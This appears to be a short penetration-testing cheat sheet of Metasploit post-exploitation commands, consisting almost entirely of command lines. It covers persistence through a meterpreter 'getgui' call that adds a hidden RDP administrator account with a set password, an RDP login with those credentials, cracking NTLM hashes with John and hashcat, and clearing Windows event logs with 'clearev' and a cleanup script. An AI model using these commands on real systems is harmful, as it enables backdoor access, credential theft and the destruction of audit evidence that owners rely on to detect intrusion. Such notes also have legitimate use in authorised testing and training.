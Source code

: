 MSF:
```
search persistence_service
```

# Persistence via RDP

```
#in meterpreter shell
run getgui -e -u user -p hacker_123321
```

GetGui command is designed to check RDP, create new user and start, hide login window and add user to local Administrator group, all in one service.

```
xfreerdp /u:user /p:hacker_123321 /v:[IP]
```

John NTLM hash cracking
```
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

hashcat:
```
hashcat -h | grep NTLM
-m1000
```


# Clearing
```
clearev
```

Also cleanup meterpreter service:
```
resource cleanup.rc
```